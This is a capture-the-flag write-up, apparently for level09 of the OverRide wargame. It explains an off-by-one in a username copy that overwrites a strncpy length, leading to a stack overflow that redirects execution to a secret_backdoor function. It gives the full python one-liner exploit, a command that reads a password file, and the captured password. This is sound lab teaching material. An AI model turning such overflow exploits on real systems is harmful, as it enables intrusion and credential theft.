 ## Program analysis

It's actually quite a complex program.

It basically asks for a username, which gets stored in the 40 last bytes of a 180 bytes buffer. Then, the user can send a message on the network. The message is retrieved and copied in the 140 first bytes of the same 180 bytes buffer.

There is also a `secret_backdoor` function which basically allows to run any command with the owner's permission (`end` here). So if we can do some sort of buffer overflow, and erase a place where some next instructions are stored, with the address of this backdoor, we could get to the `/home/users/level09/.pass` file.

Apparently, everything is secured : in total 180 bytes maximum are read and set in the buffer, the `strncpy` is secured with a max number of bytes to be copied; same for the 40 last characters with the username.


## The vulnerability

Actually, at `buf + 140`, 0 to 40 **included** first chars of username are copied, which makes 41 bytes! This one byte will allow us to overflow the `buf` from `handle_message` by one byte, which is enough to erase the size used in the `strncpy` (with a max value of 255). Indeed, this value is retrieved from the memory location 1 byte after the buffer!


## The exploit

1. Finding the offset : in `handle_msg`, the buffer is at 0xc0 from `$rbp`, or 192 bytes. Don't forget we are on a 64 bits processor so the next instruction of the main function (its $rip register whose value has been stored on the stack at time of calling `handle_msg`), is at 200 bytes from the buffer. In order to erase this value, we need our buffer to be at least **208 bytes** long after being filled up.

2. Hence, we know that the 41st character of our username should be 208 bytes or 0xD0. It will erase the value used in `strncpy` of the msg into the buffer.

3. Now, `msg` will be copied starting at teh beginning of our buffer. So its suite of 8 bytes, starting at byte 200, should be the address of the `secret_backdoor` function : `0x000055555555488c`.


## Result

```
level09@OverRide:~$ (python -c 'print("A"*40 + "\xd0")' ; python -c 'print("B"*200 + "\x8c\x48\x55\x55\x55\x55\x00\x00")' ; python -c 'print("cat /home/users/end/.pass")') | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
Segmentation fault (core dumped)
level09@OverRide:~$
```

*Note : we pass as third input, the command that will get caught by the `fgets` call inside the `secret_backdoor` function : the command we want to be executed by `system`.*